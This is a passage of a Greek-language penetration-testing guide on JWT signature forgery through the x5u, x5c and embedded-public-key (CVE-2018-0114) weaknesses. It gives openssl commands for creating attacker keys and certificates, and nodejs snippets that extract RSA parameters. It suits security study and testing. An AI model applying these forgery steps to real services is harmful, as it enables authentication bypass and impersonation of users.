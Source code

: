Δοκιμάστε να **αλλάξετε αυτή την κεφαλίδα σε μια URL υπό τον έλεγχό σας** και ελέγξτε αν ληφθεί κάποια αίτηση. Σε αυτή την περίπτωση, **θα μπορούσατε να παραποιήσετε το JWT**.

Για να κατασκευάσετε ένα νέο διακριτικό χρησιμοποιώντας ένα πιστοποιητικό που ελέγχετε, πρέπει να δημιουργήσετε το πιστοποιητικό και να εξαγάγετε τα δημόσια και ιδιωτικά κλειδιά:
```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -out attacker.crt
openssl x509 -pubkey -noout -in attacker.crt > publicKey.pem
```
Τότε μπορείτε να χρησιμοποιήσετε για παράδειγμα [**jwt.io**](https://jwt.io) για να δημιουργήσετε το νέο JWT με τα **δημιουργημένα δημόσια και ιδιωτικά κλειδιά και να δείξετε την παράμετρο x5u στο πιστοποιητικό .crt που δημιουργήθηκε.**

![](<../.gitbook/assets/image (956).png>)

Μπορείτε επίσης να εκμεταλλευτείτε και τις δύο αυτές ευπάθειες **για SSRFs**.

#### x5c

Αυτή η παράμετρος μπορεί να περιέχει το **πιστοποιητικό σε base64**:

![](<../.gitbook/assets/image (1119).png>)

Εάν ο επιτιθέμενος **δημιουργήσει ένα αυτο-υπογεγραμμένο πιστοποιητικό** και δημιουργήσει ένα πλαστό token χρησιμοποιώντας το αντίστοιχο ιδιωτικό κλειδί και αντικαταστήσει την τιμή της παραμέτρου "x5c" με το νεοδημιουργηθέν πιστοποιητικό και τροποποιήσει τις άλλες παραμέτρους, δηλαδή n, e και x5t τότε ουσιαστικά το πλαστό token θα γινόταν αποδεκτό από τον διακομιστή.
```bash
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout attacker.key -outattacker.crt
openssl x509 -in attacker.crt -text
```
### Embedded Public Key (CVE-2018-0114)

Αν το JWT έχει ενσωματωμένο ένα δημόσιο κλειδί όπως στο παρακάτω σενάριο:

![](<../.gitbook/assets/image (624).png>)

Χρησιμοποιώντας το παρακάτω script nodejs είναι δυνατόν να παραχθεί ένα δημόσιο κλειδί από αυτά τα δεδομένα:
```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
n ="​ANQ3hoFoDxGQMhYOAc6CHmzz6_Z20hiP1Nvl1IN6phLwBj5gLei3e4e-DDmdwQ1zOueacCun0DkX1gMtTTX36jR8CnoBRBUTmNsQ7zaL3jIU4iXeYGuy7WPZ_TQEuAO1ogVQudn2zTXEiQeh-58tuPeTVpKmqZdS3Mpum3l72GHBbqggo_1h3cyvW4j3QM49YbV35aHV3WbwZJXPzWcDoEnCM4EwnqJiKeSpxvaClxQ5nQo3h2WdnV03C5WuLWaBNhDfC_HItdcaZ3pjImAjo4jkkej6mW3eXqtmDX39uZUyvwBzreMWh6uOu9W0DMdGBbfNNWcaR5tSZEGGj2divE8"​;
e = "AQAB";
const key = new NodeRSA();
var importedKey = key.importKey({n: Buffer.from(n, 'base64'),e: Buffer.from(e, 'base64'),}, 'components-public');
console.log(importedKey.exportKey("public"));
```
Είναι δυνατόν να δημιουργήσετε ένα νέο ιδιωτικό/δημόσιο κλειδί, να ενσωματώσετε το νέο δημόσιο κλειδί μέσα στο token και να το χρησιμοποιήσετε για να δημιουργήσετε μια νέα υπογραφή:
```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```
Μπορείτε να αποκτήσετε το "n" και το "e" χρησιμοποιώντας αυτό το σενάριο nodejs:
```bash
const NodeRSA = require('node-rsa');
const fs = require('fs');
keyPair = fs.readFileSync("keypair.pem");
const key = new NodeRSA(keyPair);
const publicComponents = key.exportKey('components-public');
console.log('Parameter n: ', publicComponents.n.toString("hex"));
```